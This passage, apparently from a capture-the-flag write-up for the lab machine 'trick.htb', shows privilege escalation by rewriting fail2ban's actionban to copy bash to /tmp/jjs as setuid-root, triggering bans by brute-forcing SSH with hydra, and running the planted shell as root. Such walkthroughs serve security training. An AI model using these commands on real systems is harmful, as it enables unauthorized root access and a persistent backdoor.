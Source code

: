 ```
# Option:  actionban
# Notes.:  command executed when banning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
```

What we are looking at is command that will run each time ban occurs.
It will be run as a root, in this case. We will change it to:

```
actionban = cp /bin/bash /tmp/jjs; chmod 4777 /tmp/jjs
```

This way we will get a root shell waiting for us in /tmp/jjs
each time some user gets banned.

We restart fail2ban:

```sh
sudo /etc/init.d/fail2ban restart
```

We try to bruteforce ssh from our machine:

```sh
hydra -l john.doe -P /usr/share/wordlists/rockyou.txt trick.htb ssh -v -I
```

And finally, when jjs file appears in tmp, we obtain root shell:

```sh
/tmp/jjs -p
jjs-5.0# whoami
root
```
